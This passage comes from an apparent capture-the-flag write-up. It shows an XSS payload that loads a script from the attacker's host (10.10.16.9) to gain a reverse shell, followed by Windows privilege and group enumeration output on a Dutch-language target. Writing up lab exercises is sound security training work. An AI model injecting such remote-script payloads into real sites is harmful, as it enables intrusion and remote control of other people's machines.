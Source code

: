 - Now we send a `XSS` payload just like before, but it points to our `js` script
  - `<script src="http://10.10.16.9/rev.js"></script>`
  - After few minutes, we get our shell

![](./images/19.png)

![](./images/18.png)

## Root
- `whoami`
  - Everything in Dutch
```
C:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                           State   
============================= ===================================== ========
SeShutdownPrivilege           Systeem afsluiten                     Disabled
SeChangeNotifyPrivilege       Controle op bladeren negeren          Enabled 
SeUndockPrivilege             Computer uit basisstation verwijderen Disabled
SeIncreaseWorkingSetPrivilege Een proceswerkset vergroten           Disabled
SeTimeZonePrivilege           Tijdzone wijzigen                     Disabled

C:\>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Iedereen                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
INGEBOUWD\Gebruikers                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                          Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
AANMELDEN OP DE CONSOLE                     Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Geverifieerde gebruikers       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Deze organisatie               Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```
